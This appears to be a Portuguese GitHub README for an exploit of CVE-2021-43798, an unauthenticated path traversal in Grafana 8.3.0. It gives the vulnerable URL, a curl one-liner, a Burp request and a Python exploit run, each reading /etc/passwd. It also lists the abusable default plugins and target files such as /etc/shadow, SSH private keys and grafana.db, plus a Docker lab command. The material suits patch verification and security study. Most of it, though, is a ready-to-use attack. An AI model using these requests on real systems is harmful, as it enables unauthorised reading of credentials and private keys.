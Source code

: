 # [CVE-2021-43798](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43798) Grafana | Vulnerabilidade de leitura arbitrária não autorizada de arquivos

**Versão 8.3.0**

**Score: [7.5 HIGH](https://nvd.nist.gov/vuln/detail/CVE-2021-43798)**

Para mais informações sobre a correção da falha:
https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix/

Exemplo: Capturando o arquivo 
```/etc/passwd```

![Captura de tela 2022-05-20 075544](https://user-images.githubusercontent.com/39815226/169514111-8f8edb22-dc05-4daa-8b4c-f26dafdfd6b1.png)
```
root@server:/# curl --path-as-is http://localhost:3000/public/plugins/alertlist/../../../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
grafana:x:472:0:Linux User,,,:/home/grafana:/sbin/nologin
```

## A Falha
A falha consiste em obter a leitura de arquivos locais sem a necessidade de credenciais válidas. É possível explorar a falha pelo [BurpSuite](https://portswigger.net/burp), Curl ou
qualquer linguagem de preferência.

A URL vulnerável:

```http://<IP_ALVO>:3000/public/plugins/alertlist/../../../../../../../../etc/passwd```

#### Falha pelo Burp
Enviamos essa requisição
```
GET /public/plugins/alertlist/../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:3000
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="101"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```
#### Falha via Curl
Com a opção ```--path-as-is``` podemos enviar via Curl a seguinte requisição

```$ curl --path-as-is http://<IP_ALVO>:3000/public/plugins/alertlist/../../../../../../../../etc/passwd```

#### Falha via Python3

```
root@server:/# python3 CVE-2021-43798.py -u 10.0.0.1:3000 -f /etc/passwd
[*] Plugin vulnerável encontrado [*]: alertlist

root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
grafana:x:472:0:Linux User,,,:/home/grafana:/sbin/nologin
```

## Lista dos Plugins Padrões
Esta falha explora esses plugins padrões do sistema

_O arquivo está salvo como lista.txt_

```
alertlist
annolist
grafana-azure-monitor-datasource
barchart
bargauge
cloudwatch
dashlist
elasticsearch
gauge
geomap
gettingstarted
stackdriver
graph
graphite
heatmap
histogram
influxdb
jaeger
logs
loki
mssql
mysql
news
nodeGraph
opentsdb
piechart
pluginlist
postgres
prometheus
stat
state-timeline
status-history
table
table-old
tempo
testdata
text
timeseries
welcome
zipkin
```
## Arquivos Interessantes para Explorar
Alguns arquivos interessantes que é possível vizualizar com a falha
```
/conf/defaults.ini
/etc/grafana/grafana.ini
/etc/passwd
/etc/shadow
/home/grafana/.bash_history
/home/grafana/.ssh/id_rsa
/root/.bash_history
/root/.ssh/id_rsa
/usr/local/etc/grafana/grafana.ini
/var/lib/grafana/grafana.db
/proc/net/fib_trie
/proc/net/tcp
/proc/self/cmdline
```
## Criando um Ambiente de testes via Docker
É possível recriar a falha em um ambiente de teste via [Docker](https://www.docker.com). Após ter feito as configurações iniciais do docker, basta seguir este comando

```docker run --name=grafana -p 3000:3000 grafana/grafana-enterprise:8.3.0```

Depois basta acessar ```http://localhost:3000``` e explorar

